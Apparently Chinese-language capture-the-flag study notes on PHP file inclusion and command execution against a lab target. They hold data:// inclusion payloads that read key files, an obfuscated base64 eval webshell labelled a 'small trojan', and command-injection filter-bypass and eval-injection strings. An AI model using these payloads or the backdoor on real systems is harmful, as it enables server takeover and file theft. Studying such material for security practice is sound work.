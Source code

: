 

```
>> hello.txt
http://123.60.47.130:38893/start/index.php?page=hello

data伪协议或者远程文件包含
可以用data:text/plain,<?php phpinfo();?>
<?php system("cat ../key.php"); ?>.txt
```

小马

```php+HTML

<?php 
@$a = $_POST['Hello']; 
if(isset($a)){ 
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=')); 
} 
?>
Hello
<br>
Are you ok?

文件包含 ，此文件是小马
```



### 命令执行

https://zhuanlan.zhihu.com/p/391439312

#### 命令执行(RCE)面对各种过滤，骚姿势绕过总结

代码审计

看get还是post类型

可能会过滤key，用ke*   绕过命令执行   l's ''-la   c'a't

7$IFS$9. ./ke*

看看是否有一些过滤的执行函数

```shell
<?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);

#############

eval("\$o=strtolower(\"$a\");");

$o=strtolower("");system('ls');("");

eval("\$o=strtolower(\" ");system('ls');("     \");");

/index.php?a=");system('ls');("
a=${system("cat key4.php")}  这种是大变量形式
```
